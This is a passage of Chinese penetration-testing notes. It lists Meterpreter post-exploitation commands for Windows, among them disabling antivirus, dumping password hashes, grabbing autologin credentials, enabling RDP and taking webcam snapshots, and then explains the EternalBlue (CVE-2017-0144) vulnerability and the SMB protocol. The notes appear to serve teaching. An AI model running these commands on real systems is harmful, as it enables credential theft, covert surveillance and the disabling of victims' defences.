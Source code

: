 3. 常用命令（Windows）
   - `ps` 查看进程
   - `getpid` 查看进程号
   - `sysinfo` 查看系统信息
   - `run post/windows/gather/checkvm` 查看目标是否虚拟机
   - `route` 查看完整网络设置
   - `getuid` 查看当前权限
   - `getsystem` 自动提权
   - `run post/windows/manage/killav` 关闭杀软
   - `run post/windows/manage/enable_rdp` 启动远程桌面协议
   - `run post/windows/gather/enum_logged_on_users` 列举当前登录用户
   - `run post/windows/gather/enum_applications` 列举当前应用程序
   - `load espia; screengrab` 抓取屏幕截图
   - `webcam_snap` 摄像头拍照
   - `pwd` 查看当前所在目录
   - `getlwd` 查看当前目录
   - `run hashdump` 导出当前用户密码哈希
   - `run windows/gather/smart_hashdump` 导出当前用户密码哈希
   - `run windows/gather/credentials/windows_autologin` 抓取自动登录的用户名和密码
   - `shell` 进入 windows 的 shell（ Windows 和 Linux 的编码不一致，可能会出现中文乱码）
   - `chcp 65001` 修改控制台编码
   - ...



## php 后门反弹连接



## CVE-2017-0144 永恒之蓝

#### CVE-2017-0144

1. 什么是 CVE-2017-0144

   > CVE-2017-0144 是大名鼎鼎的永恒之蓝漏洞的编号。最早爆发于 2017 年 4 月 14 日晚，利用 Windows 系统的 SMB 协议漏洞来获取系统的最高权限，以此来控制被入侵的计算机。2017 年 5 月 12 日，永恒之蓝经过改造，被制作成了勒索病毒，使全世界大范围遭受病毒勒索，波及到大型企业、政府甚至高校，只能通过支付高额赎金才能恢复文件。

2. 什么是 SMB 协议

   > SMB 是一个协议服务信息快，它是一种客户机-服务器、请求-响应的协议，通过 SMB 可以在计算机之间共享文件、打印机、命名管道等资源，电脑上的网上邻居就是通过 SMB 实现的，SMB 协议工作在应用层和会话层，可以用在 TCP/IP 协议上，SMB 使用的是 TCP 139 端口和 TCP 445 端口。

3. SMB 的工作原理

   > 首先，客户端发送一个 SMB negport 请求数据包，并列出它所支持的所有 SMB 的协议版本。
   >
   > 服务器收到请求消息后响应请求，并列出希望使用的 SMB 协议版本（如果没有可使用的 SMB 协议版本则返回 0XFFFFH，结束通信）。
   >
   > 协议确定后，客户端进行向服务器发起一个用户或共享认证（通过发送 SessetupX 请求数据包实现）。
   >
   > 客户端发送一对用户名和密码或者一个简单的密码到服务器，服务器通过 SessetupX 应答数据包来允许或拒绝本次连接。
   >
   > 客户端和服务器完成了磋商和认证之后，发送 Tcon 或 TconX SMB 数据包并列出它想访问的网络资源名称，之后发送 TconX 应答数据包表示接受或拒绝此次连接。
   >
   > 连接到相应资源后，SMB 客户端就能通过 open SMB 打开一个文件，通过 read SMB 读取文件，通过 write SMB 写入文件，通过 close SMB 关闭文件等。
